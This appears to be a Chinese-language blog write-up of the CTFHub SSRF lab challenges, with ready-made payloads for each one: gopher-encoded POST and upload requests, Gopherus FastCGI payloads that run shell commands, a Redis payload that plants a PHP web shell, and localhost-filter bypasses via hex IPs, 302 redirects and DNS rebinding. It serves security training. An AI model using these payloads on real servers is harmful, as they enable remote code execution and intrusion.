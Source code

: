 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup

comment: false
---
```

![ssrf](/assets/img/ctf/ssrf.png)
## 内网访问
  直接构造访问请求,获取flag
  ```url
  /?url=127.0.0.1/flag.php
  ```
## 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
## 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
## POST请求  
  访问/?url=127.0.0.1/flag.ph,返回页面  
  ![post1](/assets/img/ctf/post1.png)  
  包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  
  ```
  <input type="submit" name="sbumit">
  ```   
  ![post3](/assets/img/ctf/post3.png)  
  在页面上提交key，页面返回"Just View From 127.0.0.1"  
  ![post5](/assets/img/ctf/post5.png)  
  可见需要通过SSRF提交请求，构造POST请求
  ```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
  ```
  POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
  得到flag   
  ![post4](/assets/img/ctf/post4.png)
## 文件上传
使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
  ```php html
  <?php
  error_reporting(0);
  if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
      echo "Just View From 127.0.0.1";
      return;
  }
  if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
      echo getenv("CTFHUB");
      exit;
  }
  ?>
  Upload Webshell
  <form action="/flag.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
  </form>
  ```

访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
![upload1](/assets/img/ctf/upload1.png)  
提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
![upload2](/assets/img/ctf/upload2.png)  
对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

```
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
```
使用gopher发送请求，得到flag  
![upload3](/assets/img/ctf/upload3.png)
## FastCGI协议
[fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
[gopher payload工具](https://github.com/tarunkant/Gopherus)  
使用gopherus工具生成payload，运行命令`ls /`  
![fastcgi1](/assets/img/ctf/fastcgi1.png)   
进行url编码后得到提交payload  
```url
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```
发送请求，获取`/`下目录情况,发现flag文件  
![fastcgi2](/assets/img/ctf/fastcgi2.png)    
使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
![fastcgi3](/assets/img/ctf/fastcgi3.png)   
进行url编码后得到提交payload    
```url
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```  
发送请求，获得flag  
![fastcgi4](/assets/img/ctf/fastcgi4.png)

## Redis协议
[浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
redis写shell命令如下
```shell
flushall
set 1 '<?php eval($_GET["feng"]);?>'
config set dir /var/www/html
config set dbfilename feng.php
save
```
使用gopherus工具生成redis攻击payload  
![redis1](/assets/img/ctf/redis1.png)  
进行url编码得到请求payload
```
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```
请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
![redis2](/assets/img/ctf/redis2.png)  
获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
![redis3](/assets/img/ctf/redis3.png)  
## URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
## 数字IP Bypass
题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
  使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
  将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```  

## 302跳转 Bypass
题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
![短链接访问](/assets/img/ctf/302.png)
## DNS重绑定
[DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
![dns1](/assets/img/ctf/dns1.png)  
访问或取flag  
![dns2](/assets/img/ctf/dns2.png)
